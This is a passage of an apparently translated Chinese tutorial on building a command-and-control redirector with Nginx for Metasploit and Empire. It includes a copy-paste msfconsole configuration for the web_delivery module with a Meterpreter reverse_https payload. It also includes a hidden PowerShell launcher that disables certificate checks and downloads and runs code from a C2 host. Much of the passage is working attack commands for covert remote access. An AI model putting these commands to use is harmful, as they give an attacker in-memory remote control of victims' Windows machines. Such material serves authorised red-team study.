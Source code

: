 ```
          proxy_pass https://1.2.3.6:80;
        `}`
      `}`
`}`
```

由于我们要让Nginx需要区分出Metasploit和Empire的请求，所以我突发奇想，打算用‘m’来代表Metasploit，用‘e’来代表Empire。Empire的C2请求如下所示：

```
https://myc2proxy.com/E0922BB0-684B-4ED3-967E-85D08880CFD5/e/index.asp
```

现在，既然我们已经可以确定传入的HTTP请求所使用的语句了，那么Nginx就需要将每一个请求转发至适当的分析代理服务器中，这项操作可以使用Nginx配置文件（/etc/nginx/sites-enabled/default）中的定位指令来完成。在这篇文章中，我们要为每一个分析器分别设置四个定位指令。在上面这段代码中，最外层的指令将会与分析器的GUID进行匹配。内层的定位指令主要用来匹配针对特定工具的请求，例如‘e’（Empire）和‘m’（Metasploit）。Metasploit的定位指令包含两个子定位指令，这两个指令可以用来匹配传入Metasploit特定模块和监听器的网络请求。

现在，C&amp;C代理服务器应该配置完成并且可以正常运行了。如果配置无误的话，我们将只能使用TLS连接和端口443来与服务器进行通信。

<br>

**Metasploit的安装与配置**

众所周知，Metasploit提供了很多的功能模块，我们可以使用这些模块来与目标用户的计算机建立C2连接。我个人比较喜欢使用“exploit/multi/script/web_delivery”模块来作为launcher。我之所以非常喜欢这个模块，主要是因为它可以将meterpreter（ShellCode）注入至目标主机的内存中。这是一种非常理想的情况，因为你可以直接使用目标主机中的内置工具来进行操作，而不必向目标主机发送任何的文件。

接下来，我们要加载Nginx配置文件所需要使用的Metasploit模块，并使用URIPATH来对其进行设置。需要注意的是，自带的payload handler必须被禁用，因为我们要单独配置这些payload。在配置这个模块的过程中，payload使用的是“windows/x64/meterpreter/reverse_https”，然后将LHOST和LPORT设置为C2代理服务器的IP地址和端口号。请注意，这里可千万不要设置成后台C2服务器的IP地址了。除此之外，我们还要设置与payload（例如Pwned）和Nginx中的指令相匹配的LURI。虽然相应的监听器根本不会启动，但我们仍然要去配置这些payload。因为接下来当模块被执行之后，我们要使用这些设置来生成显示在屏幕中的启动命令。我们可以将下面给出的这段指令直接复制粘贴到msfconsole中来配置并启动该模块：

```
use exploit/multi/script/web_delivery
set URIPATH /E0922BB0-684B-4ED3-967E-85D08880CFD5/m/Delivery
set DisablePayloadHandler true
set SSL True
set TARGET 2
set payload windows/x64/meterpreter/reverse_https
set LHOST myc2proxy.com
set LPORT 443
set LURI /E0922BB0-684B-4ED3-967E-85D08880CFD5/m/Pwned
run –j
```

下图显示的是Metasploit中web_delivery模块的配置信息：

[![](https://p1.ssl.qhimg.com/t01360cb7ea315c4984.png)](https://p1.ssl.qhimg.com/t01360cb7ea315c4984.png)

当模块被执行后，屏幕中会显示一个包含有启动代码的字符串。请注意：必须将网络端口由8080改为443，否则之后将无法再进行修改了。除此之外，我们还必须手动去修改，因为我们的C2代理只会接受来自端口443的通信请求。这个字符串如下所示：

```
powershell.exe -nop -w hidden -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback=`{`$true`}`;$o=new-object net.webclient;$o.proxy=[Net.WebRequest]::GetSystemWebProxy();$o.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $o.downloadstring('https://myc2proxy.com:8080/E0922BB0-684B-4ED3-967E-85D08880CFD5/m/Delivery');
```
